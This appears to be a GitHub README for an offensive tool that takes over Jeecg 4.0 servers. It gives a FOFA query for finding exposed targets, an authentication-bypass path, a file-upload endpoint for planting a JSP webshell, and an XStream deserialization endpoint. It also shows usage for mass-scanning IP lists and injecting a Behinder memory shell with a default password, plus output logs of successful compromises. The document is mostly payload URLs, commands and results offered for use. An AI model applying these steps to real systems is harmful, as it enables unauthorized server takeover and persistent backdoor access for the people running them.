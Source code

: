 #  Jeecg4.0 GetShell
## fofa

```
body="JEECG版权所有 v_4.0" || title="Jeecg 快速开发平台"
```
## Bypass_authorized 

### payload

```
http://ip:port/api/../xxxxxx
```

### poc

正常请求

![image-20220825124856083](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/1.png)

未授权请求

![image-20220825124932019](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/2.png)

## File_upload

### payload

```
http://ip:port/iconController.do?saveOrUpdateIcon
```

### poc

![image-20220825125237074](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/3.png)

### webshell_url

```
http://ip:port/plug-in/accordion/images/x.xxx
```

## Xstream_deserialize

### payload

```
http://ip:port/cgformSqlController.do?doMigrateIn
```

### xstream_payload

```
http://x-stream.github.io/CVE-2021-39149.html
```

### poc

![image-20220825130714206](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/4.png)

## Jeecg_v4.0_getshell

```
  Title  :  Jeecg4.0 GetShell
  Author  :  R4gd0ll
  Usage  :  python3 jeecg_v4.0_getshell.py -h

  -h --help    打开帮助
  -u --url     对单个ip进行测试
  -f --file    对文件中的所有ip进行测试
  -m --msmurl  注入冰蝎内存马(默认连接密码reyebond,支持4.0,仅支持单独ip测试)
```

### help

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -h

    -------------------------------------------------------------------------
    Title   :   Jeecg4.0 GetShell
    Author  :   R4gd0ll
    Usage   :   python3 jeecg_v4.0_getshell.py -h

    -h --help     打开帮助
    -u --url      对单个ip进行测试
    -f --file     对文件中的所有ip进行测试
    -m --msmurl   注入冰蝎内存马(默认连接密码reyebond,支持4.0,仅支持单独ip测试)
    -------------------------------------------------------------------------
```

### url

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -u http://127.0.0.1:8080/jeecg

[+] getshell success, webshell地址:http://127.0.0.1:8080/jeecg/plug-in/accordion/images/1.jsp
```

![image-20220825133223937](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/5.png)

### msmurl

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -m http://127.0.0.1:8080/jeecg/

Behinder msmshell success
```

![image-20220825133349259](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/6.png)

### file

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -f 1.txt
[-] getshell fail
[-] getshell fail
[-] 访问出现错误！
[-] 访问出现错误！
[-] getshell fail
[+] getshell success, webshell地址:http://xxxxx/plug-in/accordion/images/1.jsp
[+] getshell success, webshell地址:http://xxxxx//plug-in/accordion/images/1.jsp
```

